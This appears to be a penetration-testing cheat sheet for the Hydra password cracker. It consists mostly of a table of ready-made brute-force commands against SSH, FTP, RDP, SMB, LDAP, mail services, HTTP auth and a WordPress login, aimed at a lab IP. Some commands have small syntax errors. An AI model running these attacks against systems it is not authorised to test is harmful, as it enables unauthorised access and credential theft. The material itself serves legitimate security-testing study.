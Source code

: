 # 🐉 Hydra

Hydra is a popular open-source password cracking tool that can be used to perform brute-force attacks on login credentials of various network protocols, including FTP, HTTP, SSH, Telnet, and others. It uses different attack methods, including dictionary attacks, brute-force attacks, and hybrid attacks, to guess passwords and gain unauthorized access to a system.

Hydra can be used to test the strength of passwords used in network systems and identify potential vulnerabilities that may be exploited by attackers. It is often used by security professionals, network administrators, and penetration testers as a tool to assess the security of their systems and identify weaknesses that need to be addressed.

The following table uses the $ip variable which can be set with the following command:

`export ip 10.10.10.2`

| Command                                                                                                                                      | Description                                          |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| hydra -P password-file.txt -v $ip snmp                                                                                                       | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                          | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                                 | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh                                                                                            | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l -P big\_wordlist.txt                                                                                                  | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                             | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                            | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                    | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                              | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                                | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log In\&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f                                                                                        | SMB Brute Forcing                                    |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f                                                                                          | LDAP Brute Forcing                                   |
